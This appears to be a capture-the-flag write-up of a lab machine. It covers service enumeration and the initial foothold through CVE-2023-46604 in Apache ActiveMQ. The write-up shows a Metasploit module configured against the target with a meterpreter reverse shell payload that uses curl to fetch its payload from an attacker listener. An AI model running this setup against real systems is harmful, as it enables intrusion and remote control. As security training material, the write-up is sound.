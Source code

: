 so the potential attack surface could lie within any of these services:

- OpenSSH 8.9p1
- 3ubuntu0.4
- nginx 1.18.0
- Jetty 9.4.39.v20210325
- Apache ActiveMQ (stomp)
- ActiveMQ OpenWiretransport (apachemq)

also the mqtt broker on port 1883 offers two topics:

- ActiveMQ/Advisory/MasterBroker: 
- ActiveMQ/Advisory/Consumer/Topic/#: 

## initial foothold

according to the apachemq open wire service's fingerprint strings, there is a version number of 5.15.15 involved. without knowing much about activemq, i decided to search for and came across CVE-2023-46604 (https://www.cvedetails.com/cve/CVE-2023-46604/), which implies that there is a remote code execution vulnerability, which sounds like something we could use to establish our initial foothold via a reverse shell.

even better, there is a public metasploit exploit: https://www.rapid7.com/db/modules/exploit/multi/misc/apache_activemq_rce_cve_2023_46604/

> This module exploits a deserialization vulnerability in the OpenWire transport unmarshaller in Apache ActiveMQ. Affected versions include 5.18.0 through to 5.18.2, 5.17.0 through to 5.17.5, 5.16.0 through to 5.16.6, and all versions before 5.15.16.

i configured metasploit as follows

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show options

Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.11.243     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                       /basics/using-metasploit.html
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  10.10.14.5       yes       The local host or network interface to listen on. This must be an address
                                        on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8081             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (cmd/linux/http/mips64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WG
                                                  ET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      MPLJKxCeWk       no        Name to use on remote system when storing payload; cannot cont
                                                  ain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
```